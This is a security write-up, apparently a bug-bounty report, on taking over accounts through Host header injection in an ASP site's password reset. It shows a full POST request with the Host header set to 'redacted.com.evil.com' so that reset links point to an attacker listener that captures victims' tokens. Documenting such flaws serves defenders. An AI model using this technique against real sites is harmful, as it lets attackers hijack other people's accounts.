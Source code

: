 # Account takeover using Host header injection

**Description:**

Most web applications that involves user authentication must implement password reset feature to allow its users accessing their account on password lost.
The reset password flow is fairly simple -

1. [Client] Submit username/email using a form
2. [Server] Generates a temporary reset token that will be linked to the requested username
3. [Server] Sends an email to the client using SMTP with the reset link
4. [Client] Receives an email with a link that points to the server's address with the secret token

## Scenario 1

Website that serves an ASP application with an open registration allow its users to cover their password using `Lost Password` feature.

After registering for a user, I tried to figure how does the password recovery procedure works, lets start by recovering our own account and check our email.

We have received a link that points to the application domain with the reset token in the `rt` parameter -

![Reset link](https://i.gyazo.com/e387462b7f43e086fe6126964715032d.png)

So what is the scenario here? very simple, inject our own controlled domain that hosts a webserver so when the user clicks on the link we will get his token immediately.  
You might notice that the link arrives in an hyperlink, which hides the hostname within, might gain us a few more stealth points.

When I hit back the reset form, I tried a few techniques that kept failing, ex: send `X-Forwarded-Host` header, replace `Host` header with our own one.
After fuzzing around the `Host` header, I have found that the server must receive the whole original domain without any modifications, so how can we still control it and keep it whole?

![Huh?](https://media.giphy.com/media/kc0kqKNFu7v35gPkwB/giphy.gif)

Setting our controlled domain as **suffix** within the `Host` header bypass the server's check, but also sends us an email pointing to our **domain** (evil.com)!
The modified password reset request -

```
POST /account/LostPassword HTTP/1.1
Host: redacted.com.evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate

__RequestVerificationToken=[VerificationToken]&Email=[InputEmail]
```

The received email has our domain within its hyperlink, which contains the original domain as our subdomain that can be easily handled by create the subdomain **or** just set it in the `hosts` file (enough for this PoC).
After settings our listener on port 80 and hitting the link, we got the victim's token and we're able to reset his password.

![Voila](https://i.gyazo.com/be3039cd5ef990179e3c574b9479cf3f.png)
